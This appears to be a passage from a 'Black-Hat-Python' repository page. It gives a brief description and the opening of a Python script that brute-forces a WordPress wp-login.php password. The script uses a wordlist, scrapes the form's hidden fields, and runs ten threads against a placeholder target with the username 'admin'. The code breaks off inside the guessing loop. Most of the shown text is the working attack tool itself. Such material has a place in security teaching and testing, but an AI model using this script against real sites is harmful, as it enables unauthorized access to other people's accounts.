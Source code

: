 This script is a **multi-threaded brute-force attack** on a WordPress login page (`wp-login.php`). It attempts to find the **correct password** by iterating through a wordlist (`cain.txt`) while preserving session data using `requests.Session()`.




- [cain.txt](https://github.com/aw-junaid/Black-Hat-Python/blob/main/Python%20Tools/Extras/cain.txt)
- [SVN_all.txt](https://github.com/aw-junaid/Black-Hat-Python/blob/main/Python%20Tools/Extras/SVN_all.txt)

```python
from io import BytesIO
from lxml import etree
from queue import Queue

import requests
import sys
import threading
import time

SUCCESS = 'Welcome to WordPress!'
TARGET = "http://test_test_test.com/wp-login.php"
WORDLIST = 'cain.txt'
ADMIN = "admin"

def get_words():
    with open(WORDLIST) as f:
        raw_words = f.read()

    words = Queue()
    for word in raw_words.split():
        words.put(word)
    return words

def get_params(content):
    params = dict()
    parser = etree.HTMLParser()
    tree = etree.parse(BytesIO(content), parser=parser)
    for elem in tree.findall('//input'):
        name = elem.get('name')
        if name is not None:
            params[name] = elem.get('value', None)
    return params

class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nBrute Force Attack beginning on {url}.\n')
        print("Finished the setup where username = %s\n" % username)

    def run_bruteforce(self, passwords):
        for _ in range(10):
            t = threading.Thread(target=self.web_bruter, args=(passwords,))
            t.start()

    def web_bruter(self, passwords):
        session = requests.Session()
        resp0 = session.get(self.url)
        params = get_params(resp0.content)
        params['log'] = self.username

        while not passwords.empty() and not self.found:
```